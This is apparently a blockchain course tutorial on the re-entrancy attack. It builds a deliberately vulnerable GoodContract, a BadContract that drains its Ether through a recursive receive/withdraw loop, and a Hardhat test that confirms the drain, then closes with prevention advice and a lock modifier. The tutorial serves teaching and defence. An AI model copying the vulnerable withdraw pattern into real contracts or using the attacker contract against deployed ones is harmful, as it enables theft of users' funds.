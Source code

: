 # Re-Entrancy

Who wants to do some hacking!!!

---

## What is Re-Entrancy?

- Contract A calls a function in contract B
- Then contract B calls back into contract A while contract A is still processing

This can lead to some serious vulnerabilities in Smart contracts.

## Real World Examples?

[The DAO Attack](https://coinmarketcap.com/alexandria/article/a-history-of-the-dao-hack)

## Requirements

- There will be two contracts: GoodContract and BadContract
- BadContract should be able drain all the Eth out of the GoodContract

## Build

Lets build an example where you can experience how the Re-Entrancy attack happens.

- To setup a Hardhat project, Open up a terminal and execute these commands

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

and press `enter` for all the questions.

- Start by creating a new file inside the contracts directory called GoodContract.sol

```go
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract GoodContract {

    mapping(address => uint) public balances;

    /**
        addBalance is used to add ether to the user's balance
     */
    function addBalance() public payable {
        balances[msg.sender] += msg.value;
    }

    /**
        withdraw is used to remove the user's balance of ether
     */
    function withdraw() public {
        require(balances[msg.sender] > 0);
        (bool sent, ) = msg.sender.call{value: balances[msg.sender]}("");
        require(sent, "Failed to send ether");
        // This code becomes unreachable because the contract's balance is drained
        // before user's balance could have been set to 0
        balances[msg.sender] = 0;
    }
}
```

- GoodContract has two functions

  - addBalance() which adds balance of ether for an address
  - withdraw() where users can withdraw all of their balance at once

- Now lets create another file inside the contracts directory known as `BadContract.sol`

```go
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.10;

    import "./GoodContract.sol";

    contract BadContract {
        GoodContract public goodContract;
        constructor(address _goodContractAddress) {
            goodContract = GoodContract(_goodContractAddress);
        }
        // Function to receive Ether. msg.data must be empty
        receive() external payable {
            if(address(goodContract).balance > 0) {
                goodContract.withdraw();
            }
        }
        /**
            attack would start an attack to withdraw all the funds from the
            goodContract
        */
        function attack() public payable {
            goodContract.addBalance{value: msg.value}();
            goodContract.withdraw();
        }
    }
```

- BadContract has two functions

  - contructor which takes in the GoodContract's address and intilializes its own instance of GoodContract
  - recieve() which gets called when contract recieves ethers and msg.data is empty
  - attack() is the function which the user will use to drain all the Eth out of the GoodContract, how it will do so is as follows:
    - Attack will call addBalance, making sure that BadContract's address has some balance in the GoodContract
    - Now it will try calling the `GoodContract` withdraw function which will first check that the BadContract has some balance and then it will send `Eth` equal to BadContract's address balance to the BadContract.
    - This will trigger the recieve function in the BadContract which will again call the withdraw function.
    - Now in the withdraw function because `balances[msg.sender] = 0;` has not been executed yet, the contract still believes that the BadContract's address has balance.
    - So it again sends the Eth equal to the amount of BadContract's balance to BadContract
    - This keeps happening till all the Eth in GoodContract is drained

- Replace all the code in your `hardhat.config.js` with the following code:

  ```javascript
  require("@nomiclabs/hardhat-waffle");

  // This is a sample Hardhat task. To learn how to create your own go to
  // https://hardhat.org/guides/create-task.html
  task("accounts", "Prints the list of accounts", async (taskArgs, hre) => {
    const accounts = await hre.ethers.getSigners();

    for (const account of accounts) {
      console.log(account.address);
    }
  });

  // You need to export an object to set up your config
  // Go to https://hardhat.org/config/ to learn more

  /**
   * @type import('hardhat/config').HardhatUserConfig
   */
  module.exports = {
    solidity: "0.8.10",
  };
  ```

- Now we would write a test to make sure that our BadContract is actually draining all the funds from the GoodContract

- Read [Hardhat Docs for testing](https://hardhat.org/tutorial/testing-contracts.html) before procedding

- Now create a file under the `test` folder named `attack.js`

- Add the following content to `attack.js`

  ```js
  const { expect } = require("chai");
  const { BigNumber } = require("ethers");
  const { ethers, waffle } = require("hardhat");

  describe("Attack", function () {
    it("Should empty the balance of the good contract", async function () {
      // Deploy the good contract
      const goodContract = await ethers.getContractFactory("GoodContract");
      const _goodContract = await goodContract.deploy();
      await _goodContract.deployed();
      console.log("Good Contract's Address", _goodContract.address);
      //Deploy the bad contract
      const badContract = await ethers.getContractFactory("BadContract");
      const _badContract = await badContract.deploy(_goodContract.address);
      await _badContract.deployed();
      console.log("Bad Contract's Address", _badContract.address);
      // Get two addresses
      const [_, addr1, addr2] = await ethers.getSigners();

      // User1 deposits 10 ether into the contract
      let tx = await _goodContract.connect(addr1).addBalance({
        value: ethers.utils.parseEther("10.0"),
      });

      await tx.wait();

      const provider = waffle.provider;

      // Check that at this point the GoodContract's balance is not zero
      let balanceETH = await provider.getBalance(_goodContract.address);
      expect(balanceETH).to.not.equal(BigNumber.from("0"));

      // User calls attack function
      tx = await _badContract.connect(addr2).attack({
        value: ethers.utils.parseEther("1.0"),
      });
      await tx.wait();

      balanceETH = await provider.getBalance(_goodContract.address);
      // Balance of the GoodContract's address is zero know
      expect(balanceETH).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now to finally execute the test, on your terminal type:

  ```
  npx hardhat test
  ```

- If all your tests are passing you have completed the module. Use the GoodContract's Address that was printed on your terminal to verify this level on the website

## Prevention

- Ensure all state changes happen before calling external contracts
- Use function modifiers that prevent re-entrancy

```go
    modifier noReentrant() {
        require(!locked, "No re-entrancy");
        locked = true;
        _;
        locked = false;
    }
```
